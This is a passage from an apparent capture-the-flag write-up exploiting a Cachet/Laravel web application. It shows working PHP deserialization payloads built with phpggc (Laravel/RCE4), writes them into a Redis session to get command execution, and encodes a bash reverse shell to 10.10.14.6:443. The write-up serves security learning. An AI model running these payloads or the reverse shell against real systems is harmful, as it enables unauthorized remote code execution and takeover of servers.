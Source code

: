 These are all payloads that will make use of functions available in the application to get code running on deserialization.

On the GitHub page for Cachet, there’s a couple references to Laravel:

[![image-20220629133553627](https://0xdfimages.gitlab.io/img/image-20220629133553627.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20220629133553627.png)

These imply that it’s using at least Laravel 5.7. `Laravel/RCE4` seems to cover the range I’m targeting (5.4.0 <= 8.6.9+), so I’ll build a payload to run `id`:

```

oxdf@hacky$ /opt/phpggc/phpggc -a Laravel/RCE4 system id
O:40:"Illuminate\Broadcasting\PendingBroadcast":2:{S:9:"\00*\00events";O:31:"Illuminate\Validation\Validator":1:{S:10:"extensions";a:1:{S:0:"";S:6:"system";}}S:8:"\00*\00event";S:2:"id";}

```

I’ll get a fresh session in the cache, and update it:

```
127.0.0.1:6379> keys *
1) "laravel:rBjWQbicKo0nDt7IRC2jVI8kG0wReZuEfH7stO34"
127.0.0.1:6379> set "laravel:rBjWQbicKo0nDt7IRC2jVI8kG0wReZuEfH7stO34" 'O:40:"Illuminate\Broadcasting\PendingBroadcast":2:{S:9:"\00*\00events";O:31:"Illuminate\Validation\Validator":1:{S:10:"extensions";a:1:{S:0:"";S:6:"system";}}S:8:"\00*\00event";S:2:"id";}'
OK

```

Now when I refresh that login page again:

![image-20220629133839361](https://0xdfimages.gitlab.io/img/image-20220629133839361.png)

RCE!

#### Shell

I’ll base64-encode a [bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw) adding a couple extra spaces to get rid of `/` and `=` characters):

```

oxdf@hacky$ echo "bash  -i >& /dev/tcp/10.10.14.6/443 0>&1 " | base64
YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK

```

I don’t need the `bash -c '[payload]'` because I’m going to pipe it into `bash` after decoding.

I’ll encode that into a PHP object:

```

oxdf@hacky$ /opt/phpggc/phpggc -a Laravel/RCE4 system "echo 'YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK'|base64 -d|bash"
O:40:"Illuminate\Broadcasting\PendingBroadcast":2:{S:9:"\00*\00events";O:31:"Illuminate\Validation\Validator":1:{S:10:"extensions";a:1:{S:0:"";S:6:"system";}}S:8:"\00*\00event";S:78:"echo 'YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK'|base64 -d|bash";}

```
